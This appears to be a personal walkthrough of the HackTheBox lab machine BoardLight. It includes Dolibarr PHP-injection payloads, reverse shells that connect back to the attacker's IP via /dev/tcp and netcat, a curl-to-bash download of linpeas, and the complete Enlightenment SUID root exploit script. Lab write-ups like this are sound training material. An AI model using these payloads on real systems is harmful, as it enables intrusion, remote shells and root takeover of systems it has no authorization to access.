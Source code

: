 # NOTE: IPPSec video is a must watch. explains in detail with code analysis and goes beyond scope. Has a lot of good information
## Reconnaissance
- 10.10.11.11
	- port 80 : BoardLight
		- can submit message (maybe RCE via that?)
- dirbuster finds some js code files.
- ffuf for fuzzing url
	```bash
ffuf -u http://board.htb/ -w /usr/share/seclists/Discovery/Web-Content/big.txt   -H "Host:FUZZ.board.htb" -fs 15949
```
	- We find crm.board.htb and att to /etc/hosts file
- This url leads us to login page.
	- on searching google we see default creds is admin/admin
	- We also see the version and on searching online we see it has a vulnerability : PHP code injection
		- also has a github which automates it.
			```bash
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```
		- pass after logging in with creds
		- Gain access as www-data
## Manual method
- create new website
	- add php code in Edit HTML Source
		- pass php command to check
			- doesn't work but we see that its case sensitive and can pass if we make any or all characters in PHP uppercase
		- pass command with new knowledge
			```php
<?PHP echo system("whoami");?>
OR
<?pHp phpinfo();?>
```
			- save and click Preview page.
		- pass reverse shell 
	```php
<?php system(bash -c 'bash -i >& /dev/tcp/<local_ip>/9998 0>&1'); ?>
```
- main exploit (from writeup htb):
	```bash
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
10.10.14.25 4455 >/tmp/f");?
```
	- In the payload above, the PHP code utilizes the system() function to execute a shell command on the server. The command first removes any existing named pipe at /tmp/f to ensure there is no conflict. It then creates a new named pipe in the same location. The command reads from the named pipe, while cat /tmp/f /bin/sh -i 2>&1 starts an interactive shell, redirecting both standard output and error to the named pipe. Finally, the nc 10.10.14.41 4455 > /tmp/f command connects to our IP address on port 4455 using Netcat , allowing the input and output of the shell to flow through the named pipe. This setup effectively creates a reverse shell connection back to our listener, enabling remote command execution on the target system	 
- also pass php-reverse-shell.py (pentestmonkey) into it and that works too.
- for both i keep netcat listener open on required port.
- we check user and we are www-data
## Enumerating as www-data and Gaining initial foothold
- on enumerating we find htdocs, which holds a conf folder and a conf file.
	- within that we find a dbuser and password.
		```php
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```
- I checked /home and found a larissa directory which implies a user named larissa.
	- Can also check(more ideal enumeration)
		```bash
cat /etc/passwd | grep "sh$" # or grep "sh" too
```
		- shows user larissa can run bash
- ssh into machine with db_pass.
	- **NOTE: Yes, can fall into a rabbit hole here as db_pass doesn't imply user pass. Definitely check IPPSec for a more detailed explanation but we eventually find some info enumerating. but it helps with the priv escalation anyway. Bottom line the code checks if user belongs to any user or groups and if not it can't execute the exploit. user larissa is part of adm group which is part of that list and thus can.)**
	- 
## Privilege Escalation
- can send linpeas by first getting it from local machine, and starting a server:
	```bash
sudo python3 -m http.server 9898
```
	- call linpeas from target
		```bash
wget http://10.10.14.25(source_ _addr):9898/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
OR
curl http://10.10.14.25:9898/linpeas.sh|bash #to execute without downloading
```
		- On enumerating we find some setuid files which are interesting. this can also be found by enumerating  with find for setuid:
			```bash
find / -type f -perm -4000 2>/dev/null
```
			- We find an enlightenment file which is unusual
				- can't execute this as www-data
				- can check version with larissa
					```bash
englightenment --version
```
				- we find it to be 0.23.1
- On searching online enlightenment has an exploit CVE-2022-37706
	- We download from exploit.db url :
		https://www.exploit-db.com/exploits/51180
		- and send it to target just like we did with linpeas and www-data user. Need to edit the exploit to only include the bash code within it.
			```bash
wget http://10.10.14.25:9898/51180.txt
cat 51180.txt # copy bash code only
vi exploit.sh # paste bash code
chmod +x exploit.sh
./exploit.sh
whoami
```
			- We gain root privileges
				- root flag at /root/
---
## Root Priv Esc exploit in detail
- **NOTE: We can understand why better from IPPSecs source code analysis which basically calls a bash file. (there is an even better explanation of the actual exploit for root which is shown below and explains the directory path having ;, abd the weird // and all to bypass the codes restrictions to pass the exploit) long story short, in the main code it checks for the length which requires it to be around 6 characters and hence the extra // to pass that check. Many more checks  explained in his video and how this exploit passes through it.**
	```bash
#!/bin/bash
echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
        echo "[-] Couldn't find the vulnerable SUID file..."
        echo "[*] Enlightenment should be installed on your system."
        exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o 
#MAIN PART OF EXPLOIT
noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
----
